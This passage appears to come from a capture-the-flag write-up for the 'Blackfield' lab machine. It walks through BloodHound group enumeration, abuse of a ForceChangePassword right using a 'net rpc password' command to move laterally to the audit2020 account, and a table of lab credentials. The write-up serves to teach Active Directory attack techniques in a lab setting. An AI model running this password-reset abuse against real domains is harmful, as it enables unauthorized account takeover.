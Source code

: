 user "Support@blackfield.local" :

- is a member of "domain users"
  - is a member of "authenticated users"
    - is a member of "pre-windows 2000 compatible access"
    - is a member of "users"
  - is a member of "users"
  - is a member of "everyone"

![](assets/bloodhound-user-outbound.png)

![](assets/bloodhound-user-outbound-2.png)

The user "SUPPORT@BLACKFIELD.LOCAL" has the capability to change the user "AUDIT2020@BLACKFIELD.LOCAL"'s password without knowing that user's current password.

### Lateral movement to user "audit2020"

Since RPC service is available, it is possible to change a user password over RPC, from attacker host :

```bash
net rpc password -S $TARGET -U blackfield.local\\support audit2020
```

provide a new password `password` for support user.

There is a policy for the length, complexity, and history of the possword. The new password must meet these requirements.

With `password1234!`, the new password is set !

| username  | password        |
| ---       | ---             |
| support   | #00^BlackKnight |
| audit2020 | password1234!   |


### enumerate with username audit2020

check SMB access with this user :
